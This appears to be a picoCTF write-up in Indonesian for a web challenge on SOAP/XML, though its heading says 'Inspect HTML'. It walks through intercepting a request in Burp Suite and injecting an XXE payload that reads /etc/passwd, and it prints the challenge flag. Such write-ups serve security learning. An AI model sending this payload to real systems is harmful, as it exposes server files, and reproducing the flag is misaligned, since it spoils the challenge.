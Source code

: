# Inspect HTML
- Link: https://play.picoctf.org/practice/challenge/376?category=1&page=2

## Tantangan
The web project was rushed and no security assessment was done. Can you read the /etc/passwd file?

## Penyelesaian
- Tekan tombol **Launch Instance** untuk memulai tantangan

![alt text](https://github.com/rahardian-dwi-saputra/picoCTF-writeup/blob/main/Web%20Exploitations/SOAP/assets/soap%201.JPG)

- Buka URL http://saturn.picoctf.net:59995/ di browser

![alt text](https://github.com/rahardian-dwi-saputra/picoCTF-writeup/blob/main/Web%20Exploitations/SOAP/assets/soap%202.JPG)

- Jalankan tool `Burp Suite`
- Tekan tombol **Details** di menu picoCTF

![alt text](https://github.com/rahardian-dwi-saputra/picoCTF-writeup/blob/main/Web%20Exploitations/SOAP/assets/soap%203.JPG)

- Buka Burp Suite dan cari request yang mengarah ke path URL **/data**

![alt text](https://github.com/rahardian-dwi-saputra/picoCTF-writeup/blob/main/Web%20Exploitations/SOAP/assets/soap%204.JPG)

- Klik kanan request tersebut lalu pilih **Send to Repeater**

![alt text](https://github.com/rahardian-dwi-saputra/picoCTF-writeup/blob/main/Web%20Exploitations/SOAP/assets/soap%205.JPG)

- Pindah ke tab Repeater

![alt text](https://github.com/rahardian-dwi-saputra/picoCTF-writeup/blob/main/Web%20Exploitations/SOAP/assets/soap%206.JPG)

- Tambahkan script XXE Injection berikut dibagian request
```sh
<?xml version="1.0" encoding="UTF-8"?>
	<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "/etc/passwd"> ]><data>
		<ID>
			&xxe;2
		</ID>
	</data>
```

![alt text](https://github.com/rahardian-dwi-saputra/picoCTF-writeup/blob/main/Web%20Exploitations/SOAP/assets/soap%207.JPG)

- Jika sudah tekan tombol **Send**

![alt text](https://github.com/rahardian-dwi-saputra/picoCTF-writeup/blob/main/Web%20Exploitations/SOAP/assets/soap%208.JPG)

- Flag
```sh
picoCTF{XML_3xtern@l_3nt1t1ty_e79a75d4}
```